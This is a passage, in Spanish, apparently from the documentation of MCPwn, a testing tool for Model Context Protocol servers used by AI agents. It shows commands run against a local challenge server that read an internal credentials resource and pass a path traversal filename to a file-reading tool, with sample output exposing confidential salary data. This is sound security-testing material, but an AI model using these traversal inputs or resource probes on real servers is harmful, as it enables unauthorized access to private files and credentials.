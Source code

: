 MCPwn puede probar directamente el acceso a recursos para identificar bypasses de autorización:

```bash
python3 MCPwn.py localhost:9003 internal://credentials
```

En implementaciones vulnerables, esto podría devolver información sensible:

```bash
┌─ RESOURCE CONTENT ────────────────────────────────────────────────────────────┐
│ [1] Text Content                                                           │
│     Type: text/plain                                                         │
│     Content:                                                                 │
│     Private Files (RESTRICTED):                                             │
│     employee_salaries.txt                                                   │
│     system_credentials.txt                                                  │
│     acquisition_plans.txt                                                   │
└──────────────────────────────────────────────────────────────────────────────┘
```

### Pruebas de Path Traversal

MCPwn puede probar herramientas para vulnerabilidades de path traversal:

```bash
python3 MCPwn.py localhost:9003 read_file '{"filename": "../private/employee_salaries.txt"}'
```

La explotación exitosa podría revelar:

```bash
┌─ TOOL RESPONSE ───────────────────────────────────────────────────────────────┐
│ [1] Text Output                                                             │
├──────────────────────────────────────────────────────────────────────────────┤
│ CONFIDENTIAL: Employee Salary Information                                   │
│ CEO: $1,200,000/year                                                        │
│ CTO: $950,000/year                                                          │
│ Senior Engineers: $180,000-$250,000/year                                    │
└──────────────────────────────────────────────────────────────────────────────┘
```

Estos ejemplos demuestran cómo MCPwn puede identificar rápidamente vulnerabilidades críticas como bypasses de control de acceso y fallas de path traversal.



## Análisis de Seguridad Asistido por LLM

MCPwn puede aprovechar IA para análisis mejorado de vulnerabilidades:

```bash
python3 MCPwn.py --audit --audit-llm localhost:9003
```

```bash
python3 MCPwn.py localhost:9003 --audit --audit-llm

=== MCP Quick Audit: http://localhost:9003 ===
Server: Challenge 3 - Excessive Permission Scope | Version: 1.13.1
Tools: 2 | Resources: 2 | Prompts: 0

Timings (ms): init=22 tools=4 resources=6 prompts=2

-- Tools (top risks) --

-- Error Probing Findings --
* read_file: Accepted invalid input without error
* read_file: Accepted invalid input without error
* search_files: Accepted invalid input without error
* search_files: Accepted invalid input without error

```